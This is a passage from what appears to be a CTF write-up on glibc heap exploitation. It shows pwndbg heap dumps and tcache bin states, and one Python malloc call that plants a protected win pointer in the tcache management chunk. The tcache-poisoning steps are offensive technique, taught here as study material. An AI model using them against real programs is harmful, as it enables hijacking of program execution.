 ```
0x556630af6200	0x0000000000000000	0x0000000000000000	................
0x556630af6210	0x0000000000000000	0x0000000000000000	................
0x556630af6220	0x0000000000000000	0x0000000000000000	................
0x556630af6230	0x0000000000000000	0x0000000000000000	................
0x556630af6240	0x0000000000000000	0x0000000000000000	................
0x556630af6250	0x0000000000000000	0x0000000000000000	................
0x556630af6260	0x0000000000000000	0x0000000000000000	................
0x556630af6270	0x0000000000000000	0x0000000000000000	................
0x556630af6280	0x0000000000000000	0x0000000000000000	................
0x556630af6290	0x0000000000000000	0x0000000000000021	........!.......
0x556630af62a0	0x000001a95e006000	0x0000000000000000	.`.^............	 <-- tcachebins[0x20][0/2806]
0x556630af62b0	0x0000000000000000
pwndbg> bins
tcachebins
0x20 [2806]: 0x556630af62a0 ◂— 0x1ac08636af6
0x30 [22115]: 0x0
0x40 [  5]: 0x0
0x190 [  2]: 0x556630af64b0 —▸ 0x556630af6320 ◂— 0x0
0x3e0 [401]: 0x0
```

Allocating a `0x20 t-cache` entry will now cause the `win` pointer to be indexed in to the `per-thread cache` in a "protected" way:
```python
# Index the now encrypted pointer in to the heap management chunk
malloc(0x18, b'???')
```

Which then looks like the following:
```
pwndbg> vis 2

0x556630af6000	0x0000000000000000	0x0000000000000291	................
0x556630af6010	0x0000000556630af5	0x0000000000000000	..cV............
0x556630af6020	0x0000000000000000	0x0000000000000000	................
0x556630af6030	0x0000000000000000	0x0002000000000000	................
0x556630af6040	0x0000000000000000	0x0000000000000000	................
0x556630af6050	0x0000000000000000	0x0000000000000000	................
0x556630af6060	0x0000000000000000	0x0000000000000000	................
0x556630af6070	0x0000000000000000	0x0000000000000000	................
0x556630af6080	0x0000000000000000	0x0000000000000191	................
0x556630af6090	0x000001ac08636af6	0x0000000000000000	.jc.............
0x556630af60a0	0x0000000000000000	0x0000000000000000	................

[...]

0x556630af6120	0x0000000000000000	0x0000000000000000	................
0x556630af6130	0x0000000000000000	0x0000000000000000	................
0x556630af6140	0x0000000000000000	0x0000556630af64b0	.........d.0fU..
0x556630af6150	0x0000000000000000	0x0000000000000000	................

[...]

pwndbg> bins
tcachebins
0x20 [2805]: 0x1ac08636af6
0x30 [22115]: 0x0
0x40 [  5]: 0x0
0x190 [  2]: 0x556630af64b0 —▸ 0x556630af6320 ◂— 0x0
0x3e0 [401]: 0x0
fastbins

[...]
```
